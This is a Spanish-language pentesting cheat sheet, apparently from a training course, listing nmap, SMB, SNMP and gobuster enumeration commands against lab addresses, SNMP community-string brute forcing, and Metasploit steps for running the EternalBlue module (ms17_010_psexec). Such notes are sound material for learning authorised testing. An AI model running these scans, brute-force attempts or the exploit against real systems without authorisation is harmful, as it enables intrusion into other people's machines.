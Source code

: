 ## Pentesting

### Escaneo de Servicios
| Comando                                             | Descripción                                    |
|-----------------------------------------------------|------------------------------------------------|
| `nmap 10.129.42.253`                                | Ejecutar nmap en una IP                        |
| `nmap -sV -sC -p- 10.129.42.253`                    | Ejecutar un escaneo con script de nmap en una IP |
| `locate scripts/citrix`                             | Listar varios scripts de nmap disponibles      |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Ejecutar un script de nmap en una IP          |
| `netcat 10.10.10.10 22`                             | Capturar banner de un puerto abierto           |
| `smbclient -N -L \\\\10.129.42.253`                 | Listar comparticiones SMB                      |
| `smbclient \\\\10.129.42.253\\users`                | Conectar a una compartición SMB                |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | Escanear SNMP en una IP                      |
| `onesixtyone -c dict.txt 10.129.42.254`             | Fuerza bruta de cadena secreta SNMP            |

### Enumeración Web
| Comando                                                                 | Descripción                                      |
|-------------------------------------------------------------------------|--------------------------------------------------|
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` | Ejecutar un escaneo de directorios en un sitio web |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Ejecutar un escaneo de subdominios en un sitio web |
| `curl -IL https://www.inlanefreight.com`                                | Capturar banner de un sitio web                  |
| `whatweb 10.10.10.121`                                                  | Listar detalles sobre el servidor web/certificados |
| `curl 10.10.10.121/robots.txt`                                          | Listar directorios potenciales en robots.txt     |
| `ctrl+U`                                                                | Ver código fuente de la página (en Firefox)      |

### Exploits Públicos
| Comando                                                        | Descripción                                          |
|----------------------------------------------------------------|------------------------------------------------------|
| `searchsploit openssh 7.2`                                     | Buscar exploits públicos para una aplicación web     |
| `msfconsole`                                                   | MSF: Iniciar el Metasploit Framework                 |
| `search exploit eternalblue`                                   | MSF: Buscar exploits públicos en MSF                 |
| `use exploit/windows/smb/ms17_010_psexec`                      | MSF: Comenzar a usar un módulo de MSF                |
| `show options`                                                 | MSF: Mostrar opciones requeridas para un módulo de MSF |
| `set RHOSTS 10.10.10.40`                                       | MSF: Establecer un valor para una opción de módulo de MSF |
| `check`                                                        | MSF: Verificar si el servidor objetivo es vulnerable |
| `exploit`                                                      | MSF: Ejecutar el exploit en el servidor objetivo     |
